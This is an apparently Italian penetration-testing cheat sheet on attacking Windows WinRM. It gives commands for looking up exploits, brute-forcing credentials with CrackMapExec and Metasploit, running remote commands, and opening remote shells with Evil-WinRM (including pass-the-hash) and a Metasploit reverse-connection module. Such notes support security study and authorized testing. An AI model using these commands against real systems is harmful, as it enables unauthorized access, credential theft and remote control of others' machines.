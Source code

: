 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <ftp-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

---

## Bruteforce
Proviamo ora a cercare di ottenere le credenziali manualmente
### CrackMapExec
CrackMapExec è uno strumento multiuso per testare l’autenticazione nei servizi Windows. 
```bash
crackmapexec winrm <IP> -u <userList> -p <passwordList>
```
> la stessa sintassi vale per l'autenticazione a singolo utente

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_login
set RHOSTS <IP>
set USER_FILE <lista_utenti>
set PASS_FILE <lista_password>
set PASSWORD anything
run
```
> Il campo `PASSWORD` deve sempre essere valorizzato anche se stai usando un dizionario, altrimenti il modulo non eseguirà il test.

---

## Esecuzione Remota di Comandi
Dopo aver ottenuto delle credenziali per qualche account, possiamo accedere al servizio per eseguire dei comandi remoti.
### CrackMapExec
```bash
crackmapexec winrm <IP> -u <username> -p <password> -x "whoami"
```
Permette di eseguire comandi (`-x`) come `whoami`, `hostname`, `systeminfo`, ecc.

### Metasploit
```bash
use auxiliary/scanner/winrm/winrm_cmd
set RHOSTS <IP>
set USERNAME <utente>
set PASSWORD <password>
set CMD "whoami"
run
```
Questo modulo è utile per:
- Verificare se le credenziali funzionano
- Eseguire comandi diagnostici
- Operare in ambienti con logging avanzato
- Testare permessi utente

---

## Accesso
Dopo aver ottenuto delle credenziali e confermato che l'esecuzione dei comandi remoti funziona, possiamo accedere direttamente al servizio per averne il controllo. 
### Evil-WinRM
tool in Ruby pensato per fornire una shell interattiva remota su Windows sfruttando il servizio WinRM, autenticandosi con credenziali valide.
```bash
evil-winrm -u <username> -p '<password>' -i <IP>
```
> Per accedere con NTLM Hash cambiare `-p` con `-H`

Funzionalità disponibili:
- Shell PowerShell interattiva
- Upload e download file
- Esecuzione script PowerShell
- Post-exploitation tools

### Metasploit
```bash
use exploit/windows/winrm/winrm_script_exec
set RHOSTS <IP>
set LHOST <tuo_IP>
set LPORT <Port>
set USERNAME <utente>
set PASSWORD <password>
set FORCE_VBS true
run
```
> L’opzione `FORCE_VBS` forza l’esecuzione tramite VBScript e aumenta la compatibilità su sistemi con policy restrittive.

